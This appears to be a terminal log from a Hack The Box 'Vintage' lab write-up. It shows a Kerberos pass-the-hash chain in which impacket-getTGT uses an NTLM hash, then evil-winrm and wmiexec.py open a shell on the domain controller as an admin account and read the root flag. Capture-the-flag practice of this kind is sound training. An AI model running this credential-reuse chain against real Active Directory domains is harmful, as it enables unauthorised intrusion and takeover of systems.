┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-gichcczkih]─[~]
└──╼ [★]$ KRB5CCNAME='L.Bianchi.ccache' evil-winrm -i dc01.vintage.htb -r vintage.htb

impacket-getTGT vintage.htb/L.Bianchi_adm -hashes ':6b751449807e0d73065b0423b64687f0' -dc-ip 10.129.231.205
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in L.Bianchi_adm.ccache

KRB5CCNAME='L.Bianchi_adm.ccache' [wmiexec.py](http://wmiexec.py/) -k dc01.vintage.htb
Impacket v0.14.0.dev0+20260407.172353.7fc084ad - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
vintage\l.bianchi_adm

C:\>cd Users\Administrator\Desktop
C:\Users\Administrator\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is B8C0-0CD3

Directory of C:\Users\Administrator\Desktop

11/14/2024  08:48 PM    <DIR>          .
06/08/2024  04:36 PM    <DIR>          ..
06/26/2026  09:22 PM                34 root.txt
1 File(s)             34 bytes
2 Dir(s)   5,783,252,992 bytes free

C:\Users\Administrator\Desktop>type root.txt
0ed9fa14c162488515f054ec60afa1d8

[Sekhmet](Sekhmet.md)